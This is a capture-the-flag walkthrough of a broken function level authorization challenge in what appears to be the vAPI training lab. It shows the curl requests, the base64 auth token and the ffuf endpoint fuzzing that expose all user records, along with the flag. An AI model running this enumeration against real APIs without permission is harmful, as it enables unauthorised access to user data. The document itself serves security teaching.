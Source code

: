 # Broken Function Level Authorization
> You can register yourself as a User. Thats it or is there something more? (I heard admin logins often but uses different route)

# Tools Used:
```
curl 8.8.0 (x86_64-pc-linux-gnu)
base64 (GNU coreutils) 9.4
echo (GNU coreutils) 9.4
GNU Wget 1.24.5
ffuf 2.1.0-dev
cat (GNU coreutils) 9.4
```

# Get User
## GET /vapi/api5/user/{api5_id}

Seeing that the Get User API endpoint uses user id, we may attempt to check for BOLA (Broken Object Level Authorization)

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: localhost' \
    $'http://localhost/vapi/api5/user/1'
```
```http
HTTP/1.1 403 Forbidden
Host: localhost
Date: Sat, 29 Jun 2024 20:27:52 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Sat, 29 Jun 2024 20:27:52 GMT
Content-Type: application/json

{"success":"false","cause":"authHeaderNotSet"}
```

Seems we need an authentication header

# Create User
## POST /vapi/api5/user

Create a user
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    --data-binary $'{\x0d\x0a    \"username\":\"testuser2\",\x0d\x0a    \"password\":\"test123\",\x0d\x0a    \"name\":\"Test User\",\x0d\x0a    \"address\":\"ABC\",\x0d\x0a    \"mobileno\":\"888888888\"\x0d\x0a}' \
    $'http://localhost/vapi/api5/user'
```
```http
HTTP/1.1 201 Created
Host: localhost
Date: Sat, 29 Jun 2024 20:22:07 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Sat, 29 Jun 2024 20:22:07 GMT
Content-Type: application/json

{"username":"testuser2","name":"Test User","address":"ABC","mobileno":"888888888","id":2}
```

As specified in the Postman Collection, the test script to be executed for the API5 Create User endpoint is used to derive the id by parsing the JSON, selecting the value of "id" key and updates it in the Postman Environment as api5_id, and used to derive the token (Authorization-Token) by parsing the request JSON data, taking the values of the "username" and "password" key respectively with a colon between the two values, encoding the string in base64 and updates it in the Postman Environment as api5_auth.
```js
var jsonData = JSON.parse(responseBody);
var api5_id = jsonData.id;
console.log("API 5 User ID : "+api5_id);
postman.setEnvironmentVariable("api5_id",api5_id);
var reqData = JSON.parse(request.data);
var api5_username=reqData.username;
var api5_password=reqData.password;
var api5_auth=btoa(api5_username+":"+api5_password);
console.log("API 5 Auth : "+api5_auth);
postman.setEnvironmentVariable("api5_auth",api5_auth);
```

Manually derive the authorization token
```bash
echo -n "testuser2:test123" | base64
```
```
dGVzdHVzZXIyOnRlc3QxMjM=
```
- We will need the Authorization Token for the "Get User" endpoint

# Get User
## GET /vapi/api5/user/{api5_id}

Get data of our created user
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Authorization-Token: dGVzdHVzZXIyOnRlc3QxMjM=' -H $'Host: localhost' \
    $'http://localhost/vapi/api5/user/2'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 29 Jun 2024 20:40:36 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Sat, 29 Jun 2024 20:40:36 GMT
Content-Type: application/json

{"id":2,"username":"testuser2","name":"Test User","address":"ABC","mobileno":"888888888"}
```

Get data of other users
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Authorization-Token: dGVzdHVzZXIyOnRlc3QxMjM=' -H $'Host: localhost' \
    $'http://localhost/vapi/api5/user/1'
```
```http
HTTP/1.1 403 Forbidden
Host: localhost
Date: Sat, 29 Jun 2024 20:42:01 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Sat, 29 Jun 2024 20:42:01 GMT
Content-Type: application/json

{"success":"false","cause":"usernameOrPasswordIncorrect"}
```

Seems like we are not able to BOLA (Broken Object Level Authorization).
Lets try to see what objects we are able to access with a wordlist
```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/api/objects.txt -O /home/kali/Desktop/objects.txt
```

Brute force the endpoints
```bash
ffuf -w /home/kali/Desktop/objects.txt -X GET -H "Authorization-Token: dGVzdHVzZXIyOnRlc3QxMjM=" -u http://localhost/vapi/api5/§§/ -fc 500 -mode sniper -od /home/kali/Desktop/ffuf_responses -v
```
```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://localhost/vapi/api5/§§/
 :: Wordlist         : FUZZ: /home/kali/Desktop/objects.txt
 :: Header           : Authorization-Token: dGVzdHVzZXIyOnRlc3QxMjM=
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 500
________________________________________________

[Status: 200, Size: 311, Words: 6, Lines: 1, Duration: 1789ms]
| URL | http://localhost/vapi/api5/users/
| RES | ee0706e54b0d606e0a45df0a79e8f78b
    * FUZZ: users

:: Progress: [3132/3132] :: Job [1/1] :: 22 req/sec :: Duration: [0:02:21] :: Errors: 0 ::
```

View the matched fuff response file:
```bash
cat /home/kali/Desktop/ffuf_responses/ee0706e54b0d606e0a45df0a79e8f78b
```
```
GET /vapi/api5/users/ HTTP/1.1
Host: localhost
User-Agent: Fuzz Faster U Fool v2.1.0-dev
Authorization-Token: dGVzdHVzZXIyOnRlc3QxMjM=
Accept-Encoding: gzip


---- ↑ Request ---- Response ↓ ----

HTTP/1.1 200 OK
Connection: close
Cache-Control: no-cache, private
Content-Type: application/json
Date: Sat, 29 Jun 2024 21:06:25 GMT
Date: Sat, 29 Jun 2024 21:06:25 GMT
Host: localhost
X-Powered-By: PHP/7.4.33

[{"id":1,"username":"admin","name":"Admin User","address":"flag{api5_76dd990a97ff1563ae76}","mobileno":"8080808080"},{"id":2,"username":"testuser2","name":"Test User","address":"ABC","mobileno":"888888888"},
```
- Observe that we managed to access an administrative endpoint that we were not supposed to, and managed to list out all the users.

API5 Flag
```
flag{api5_76dd990a97ff1563ae76}
```

References:
https://owasp.org/API-Security/editions/2019/en/0xa5-broken-function-level-authorization/
https://owasp.org/API-Security/editions/2023/en/0xa5-broken-function-level-authorization/
